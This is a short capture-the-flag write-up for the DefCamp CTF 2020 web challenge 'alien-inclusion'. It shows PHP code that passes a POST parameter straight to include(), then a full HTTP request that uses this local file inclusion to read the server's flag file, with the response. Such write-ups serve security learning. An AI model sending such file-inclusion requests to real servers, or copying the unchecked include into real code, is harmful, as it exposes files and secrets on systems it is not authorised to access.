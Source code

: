 # DefCamp CTF 2020 – alien-inclusion

* **Category:** web
* **Points:** 50

## Challenge

> Keep it local and you should be fine. The flag is in /var/www/html/flag.php.
> 
> Flag format: CTF{sha256}
> 
> The challenge was proposed by BIT SENTINEL.
> 
> 35.234.65.24:30627

## Solution

The challenge will print a PHP source code.

```php
<?php

if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

include ($_POST['start']);
echo $secret;
```

You can craft a request like the following.

```
POST /?start=/var/www/html/flag.php HTTP/1.1
Host: 35.234.65.24:30627
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 28
Content-Type: application/x-www-form-urlencoded

start=/var/www/html/flag.php

HTTP/1.1 200 OK
Date: Sat, 05 Dec 2020 12:55:40 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 69
Connection: close
Content-Type: text/html; charset=UTF-8

ctf{b513ef6d1a5735810bca608be42bda8ef28840ee458df4a3508d25e4b706134d}
```